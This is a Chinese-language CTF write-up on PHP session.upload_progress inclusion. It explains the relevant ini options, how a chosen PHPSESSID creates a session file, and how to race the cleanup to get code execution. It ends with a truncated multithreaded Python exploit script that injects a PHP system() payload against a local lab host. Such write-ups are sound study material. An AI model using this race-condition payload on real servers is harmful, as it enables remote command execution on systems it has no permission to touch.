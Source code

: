 `enable=on`表示upload_progress功能开启,当浏览器向服务器上传一个文件时,php会把此次文件上传的详细时间(如上传时间,上传进度等)存储在session中

`cleanup=on`表示当文件上传结束后，php将会立即清空对应session文件中的内容，这个选项非常重要；

`name`当它出现在表单中，php将会报告上传进度，最大的好处是，它的值可控；

`prefix+name`将表示为session中的键名

一个session中的重要选项

`session.use_strict_mode=off`这个选项默认值为off，表示我们对Cookie中sessionid可控。这一点至关重要

我们可以利用`session.upload_progress`将恶意语句写入session文件，从而包含session文件。前提需要知道session文件的存放位置。

**问题一**

代码里没有`session_start()`,如何创建session文件呢。

**解答一**

其实，如果`session.auto_start=On` ，则PHP在接收请求的时候会自动初始化Session，不再需要执行session_start()。但默认情况下，这个选项都是关闭的。

<label style="background:yellow">但session还有一个默认选项，session.use_strict_mode默认值为0。此时用户是可以自己定义Session ID的。比如，我们在Cookie里设置PHPSESSID=TGAO，PHP将会在服务器上创建一个文件：/tmp/sess_TGAO”。即使此时用户没有初始化Session，PHP也会自动初始化Session。 并产生一个键值，这个键值有ini.get("session.upload_progress.prefix")+由我们构造的session.upload_progress.name值组成，最后被写入sess_文件里。</label>

**问题二**

默认配置`session.upload_progress.cleanup = on`导致文件上传后，session文件内容立即清空，如何进行rce

可以利用竞争,在session文件内容清空前进行包含利用

----

明白了原理之后模仿他人的wp用burp的intruder模块进行了尝试,但是都以失败告终,大多都是503错误

尝试编写多线程python脚本来解题,顺便学习一下python多线程

经过尝试之后,发现ctfshow对访问速度做了限制,这题没法做了,于是尝试在本地进行复现,因为是windows的原因,无法通过目录包含该文件,对截图了session中写入的内容,确实是有代码在里面

![image-20220127002641787](https://gitee.com/blue_satchel/images/raw/master/image-20220127002641787.png)

----

##### payload

最后在本地linux虚拟机搭建了对应环境,不做请求速率限制,成功包含并执行命令,503的原因就是ctfshow平台做了限制

如果在知道当前页面在服务器的路径的情况下,使用file_put_contents函数写一句话会方便很多

```python
'''
Description: 
Autor: blueSatchel
Date: 2022-01-26 22:34:13
LastEditors: blueSatchel
LastEditTime: 2022-01-27 14:34:37
'''
import requests
import io
import threading
import time

url='http://192.168.86.129:1234/'
sessionid='blue'

def write(session):
    fileBytes=io.BytesIO(b'a'*1024*50)
    while True:
        response=session.post(url=url,data={
            'PHP_SESSION_UPLOAD_PROGRESS':'<?php system("ls");?>'
             },
```